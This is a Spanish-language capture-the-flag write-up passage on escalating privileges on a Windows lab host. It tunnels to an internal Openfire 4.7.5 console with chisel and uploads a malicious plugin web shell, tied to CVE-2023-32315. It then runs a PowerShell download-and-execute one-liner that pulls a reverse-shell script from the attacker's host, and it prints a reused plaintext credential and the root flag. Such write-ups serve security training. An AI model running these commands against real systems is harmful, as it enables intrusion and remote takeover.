En la máquina atacante, nos ponemos en escucha por el puerto 1234.
```shell
$ /opt/chisel/chisel server --reverse -p 1234
2024/08/03 21:26:09 server: Reverse tunnelling enabled
2024/08/03 21:26:09 server: Fingerprint TkIa7XucA1PPZW9WeqCImhwJucZLEX5ANfBz0bNaYk4=
2024/08/03 21:26:09 server: Listening on http://0.0.0.0:1234
```

En la máquina víctima
```powershell
PS C:\Users\svc_openfire\Desktop> .\chisel.exe client 10.10.14.80:1234 R:9090:127.0.0.1:9090
```

Y ahora, nuestro puerto 9090 local en la máquina atacante, corresponde al puerto 9090 de la máquina víctima.
```shell
2024/08/03 21:26:44 server: session#1: tun: proxy#R:9090=>9090: Listening
```

Lo podemos comprobar..


La versión es `Openfire, Version: 4.7.5`

Revisemos este [PoC](https://github.com/miko550/CVE-2023-32315)

Este exploit se basa en una cadena de exploits, donde se abusa de **[CVE-2023-32315](https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT)** saltándonos la autenticación, para posteriormente subir un plugin malicioso y conseguir una web shell. 

Aunque de nada sirve ya que las credenciales `svc_openfire:!@#$%^&*(1qazxsw` sirven para poder iniciar sesión por lo cual nos podemos saltar la Authentication Bypass.

Igualmente vamos a utilizar el archivo .jar que contiene la web shell.


Subimos el plugin correctamente.


Nos dirigimos a la ruta `/plugins/openfire-management-tool-plugin/cmd.jsp`

Nos pide una contraseña, esta contraseña es 123.


Y este servicio lo está ejecutando el equipo DC01$ por lo cual el usuario asociado es `nt authority\system`


Ahora ofrecemos de nuevo el `Invoke-PowerShellTcp.ps1` y ejecutamos `powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.80:8081/Invoke-PowerShellTcp.ps1') | powershell -noprofile` en la web shell para descargarnos este archivo y ejecutarlo, así obtendremos una reverse shell siempre que estemos en escucha con `netcat` por el puerto 443 ya que así edité el archivo anteriormente.

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.230.215] 53632
Windows PowerShell running as user DC01$ on DC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\Openfire\bin>whoami
nt authority\system
```

Y ya podríamos leer la flag
```powershell
PS C:\Users\Administrator\DESKTOP> type root.txt
8183d8610ccffd7fda598bd31424ebfb
```

Happy Hacking! 🚀
